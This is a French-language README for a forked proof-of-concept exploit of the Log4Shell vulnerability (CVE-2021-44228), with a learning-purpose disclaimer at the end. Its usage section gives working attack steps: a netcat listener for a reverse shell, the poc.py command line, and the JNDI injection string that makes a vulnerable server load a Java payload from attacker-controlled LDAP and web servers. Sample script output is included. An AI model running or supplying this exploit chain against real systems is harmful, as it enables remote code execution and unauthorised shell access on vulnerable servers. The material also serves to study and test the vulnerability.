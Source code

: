 # log4j-shell-poc

## forked from https://github.com/kozmer/log4j-shell-poc
A Proof-Of-Concept pour la CVE-2021-44228 <br><br>

Proof-of-concept (POC)
----------------------

Installer les dépendances python 

#### Requirements:
```bash
pip install -r requirements.txt
```
#### Usage:


* Démarrer un listener pour la connexion reverse shell <br>
```py
nc -lvnp 9001
```
* Lancer l'exploit <br>
**Note:** J'ai intégré le jdk de java qui est devenu lourd à récupérer (F*ck*ng License system Oracle)
```py
$ python3 poc.py --userip $iplistener --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://$iplistener:1389/a}

Listening on 0.0.0.0:1389
```

Le script :
- Démarre un serveur web python hebergeant le payload Java (Exploit.class)
- Démarre un serveur LDAP sur le port 1389 (pour renvoyer la connexion vers le serveur web python)

L'exploit JNDI ${jndi:ldap://$iplistener:1389/a} (affiché par le script) forcera le serveur vulnérable à se connecter sur vos services pour exécuter le reverse shell final

<br>


Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).
